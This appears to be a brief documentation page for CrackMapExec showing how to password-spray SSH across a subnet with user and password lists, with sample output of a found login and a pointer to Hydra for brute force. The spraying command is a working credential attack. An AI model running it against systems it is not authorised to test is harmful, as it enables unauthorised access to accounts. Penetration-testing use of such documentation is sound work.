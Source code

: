 # Password Spraying

### Password spraying (without bruteforce)

```
#~ cme ssh 192.168.1.0/24 -u userfile -p passwordfile --no-bruteforce
```

Expected Results:

```
SSH         127.0.0.1       22     127.0.0.1        [*] SSH-2.0-OpenSSH_8.2p1 Debian-4
SSH         127.0.0.1       22     127.0.0.1        [+] user:password
```

{% hint style="info" %}
By default CME will exit after a successful login is found. Using the `--continue-on-success` flag will continue spraying even after a valid password is found. Usefull for spraying a single password against a large user list.
{% endhint %}

<figure><img src="../../../../../.gitbook/assets/image (65).png" alt=""><figcaption></figcaption></figure>

You can also use [Hydra](https://github.com/vanhauser-thc/thc-hydra) available by default on Kali to bruteforce SSH password, it's faster and better :)
